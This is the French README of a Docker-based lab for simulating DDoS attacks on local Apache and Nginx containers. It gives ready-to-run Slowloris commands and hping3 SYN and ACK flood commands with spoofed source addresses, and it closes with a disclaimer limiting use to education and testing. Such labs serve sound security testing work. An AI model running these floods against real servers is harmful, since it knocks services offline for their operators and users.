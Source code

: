 # DDoS Attack Simulation Tool

Ce projet fournit un ensemble d'outils pour simuler des attaques DDoS contre des serveurs Apache et Nginx à des fins de test et d'évaluation de la sécurité.

## Prérequis

- Docker et Docker Compose doivent être installés sur votre machine.

## Utilisation

1. Construction et exécution des conteneurs

```bash
docker-compose -f stack.yml up -d --build

# build images and run containers

```bash
docker-compose -f stack.yml up -d --build
```

2. Attaques HTTP Flood

- Attaque Slowloris contre le serveur Apache

```bash
docker exec -ti attacker-DDOS /bin/bash -c "slowloris 172.20.0.2 -s 1000"
```

- Attaque Slowloris contre le serveur Nginx

```bash
docker exec -ti attacker-DDOS /bin/bash -c "slowloris 172.20.0.3 -s 1000"
```

3. Attaques SYN Flood

- Attaque SYN Flood contre le serveur Apache

```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -S -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.2"
```

- Attaque SYN Flood contre le serveur Nginx
```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -S -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.3"
```

4. Attaques ACK Flood

- Attaque ACK Flood contre le serveur Apache
```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -A -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.2"
```

- Attaque ACK Flood contre le serveur Nginx
```bash
docker exec -ti attacker-DDOS /bin/bash -c "hping3 -A -c 100000 -d 1000 -p 80 --flood  --rand-source 172.20.0.3"
```

5. Arrêt et suppression des conteneurs
```bash
docker-compose -f stack.yml down
```

## Avertissement
Ce projet est uniquement destiné à des fins éducatives et de test. L'utilisation de ces outils contre des systèmes sans autorisation est illégale.

## Auteur
Ahmat Mahamat Ahmat

Email : ahmatmhtlouky@gmail.com

## Licence

Ce projet est sous licence MIT. Voir le fichier LICENSE pour plus de détails.
 
